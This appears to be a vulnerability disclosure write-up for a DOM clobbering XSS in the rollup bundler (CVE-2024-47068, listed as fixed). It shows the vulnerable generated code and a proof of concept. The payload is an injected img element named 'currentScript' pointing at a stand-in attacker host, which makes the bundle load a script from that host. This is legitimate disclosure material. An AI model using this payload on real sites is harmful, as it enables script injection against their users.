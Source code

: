 ## rollup

### Meta

+ Library: rollup
+ Version: v4.21.3
+ Stars: 25.2K
+ Payload: ```<img src="https://attack.hulk" name="currentScript">```
+ Impact: XSS
+ CVE: [CVE-2024-47068](https://github.com/advisories/GHSA-gcx4-mw62-g8wm)
+ Status: Fixed
+ Foundby: TheHulk

### Library

https://github.com/rollup/rollup


### Vulnerable Code Snippet

```javascript
var _documentCurrentScript = typeof document !== 'undefined' ? document.currentScript : null;
var s = document.createElement('script');
s.src = (typeof document === 'undefined' ? require('u' + 'rl').pathToFileURL(__filename).href : (_documentCurrentScript && _documentCurrentScript.src || new URL('bundle.js', document.baseURI).href)) + 'extra.js';
document.head.append(s);
```

## PoC

as an example, bundle the js below: `rollup main.js --format cjs --file bundle.js`.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//attack.hulk"></img>
<script src="dist/index.js"></script>
``` -->

```html
<!--Library-->
<script src="bundle.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999"></img>
<!--Payload-->
```


